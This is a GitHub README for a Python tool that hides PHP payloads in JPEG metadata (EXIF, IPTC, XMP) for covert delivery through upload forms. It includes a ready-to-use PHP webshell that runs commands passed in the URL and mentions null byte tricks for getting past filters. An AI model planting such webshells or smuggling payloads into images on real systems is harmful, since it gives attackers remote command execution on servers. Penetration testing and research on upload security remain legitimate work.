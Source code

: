 # Octo Dark Cyber Squad PHP Injector Tool

![Banner](https://raw.githubusercontent.com/yourusername/yourrepo/main/banner-image.png)  
*(Optional: Add your banner image link here)*

---

## 🛠️ Overview

The **Octo Dark Cyber Squad PHP Injector Tool** allows security testers and researchers to stealthily embed PHP payloads into JPEG image metadata. This can be used for advanced authorized penetration testing and security research.

Inject PHP webshells or arbitrary PHP code into multiple JPEG metadata fields, including EXIF, IPTC, and XMP — enabling covert payload delivery in environments that rely on image uploads.

---

## ⚙️ Features

- **Multiple Injection Methods:**
  - EXIF UserComment
  - EXIF ImageDescription
  - IPTC Caption
  - XMP Description

- **Null Byte Injection:**  
  Add a terminating null byte to bypass simple PHP filtering.

- **Extraction Support:**  
  Extract PHP payloads from EXIF UserComment and ImageDescription fields.

- **Error Handling:**  
  Robust handling with descriptive error messages for safer usage.

- **Interactive CLI:**  
  User-friendly menu to select injection or extraction modes.

---

## 🚀 Usage

1. **Run the tool:**

   ```bash
   python php_injector.py
   ```

2. **Select Mode:**

   - `1` to Inject PHP payload
   - `2` to Extract from EXIF UserComment
   - `3` to Extract from EXIF ImageDescription

3. **Follow prompts to specify image paths, payloads, and injection methods.**

---

## 🔧 Injection Methods Explained

| Method             | Description                             | Notes                        |
|--------------------|---------------------------------------|------------------------------|
| `usercomment`      | Injects into EXIF UserComment field    | Supports null byte injection  |
| `imagedescription` | Injects into EXIF ImageDescription     | Supports null byte injection  |
| `iptc`             | Injects into IPTC Caption block        | Direct binary append          |
| `xmp`              | Injects into XMP Description packet    | Embedded as APP1 segment      |

---

## ⚠️ Disclaimer

- **Authorized Use Only:** This tool is intended strictly for authorized security testing and research.
- **Legal Warning:** Unauthorized use against systems without permission is illegal and unethical.
- Use responsibly and obtain proper authorization before testing any systems.

---

## 📦 Requirements

- Python 3.6+
- [`piexif`](https://pypi.org/project/piexif/) library  
  Install via pip:  
  ```bash
  pip install piexif
  ```

---

## 🔍 Example Payload

Default webshell payload used when none specified:

```php
<?php if(isset($_GET['cmd'])){system($_GET['cmd']);} ?>
```

---

## 📈 Future Improvements

- Add extraction for IPTC and XMP metadata
- UTF-8 payload support
- CLI argument mode for automation
- Support for more metadata fields
- Payload validation and verification tools

---

## 👤 Author & Contact

**Ariyan Bin Bappy**  
Octo Dark Cyber Squad  
GitHub: [https://github.com/AriyanBinBappy](https://github.com/AriyanBinBappy)  

---

## 📄 License

This project is licensed under the MIT License — see the [LICENSE](LICENSE) file for details.
